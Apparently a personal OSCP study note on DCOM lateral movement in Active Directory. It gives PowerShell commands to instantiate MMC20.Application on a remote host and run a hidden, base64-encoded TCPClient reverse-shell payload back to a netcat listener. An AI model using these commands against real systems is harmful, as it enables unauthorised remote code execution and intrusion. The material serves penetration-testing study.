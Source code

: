 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/14-active-directory-movement/6-dcom/","updated":"2024-01-05T11:37:03.676+01:00"}
---
```


----------
- Distributed Component Object Model
- Originally a system for creating software components that interact with each other
- Now extended for interaction between computers over a network
- Performed over RPC on TCP port 135
- Requires local administrator access
- Collection of DCOM lateral movement techniques: https://www.cybereason.com/blog/dcom-lateral-movement-techniques

### DCOM MMC Reverse Shell:
1. Generate encoded Powershell payload using python script.
2. Start elevated powershell.
3. Initiate MMC 2.0 application and set target ip:
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<target-ip>"))
```
2. Start netcat listener.
3. Execute the application and specify process:
```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```
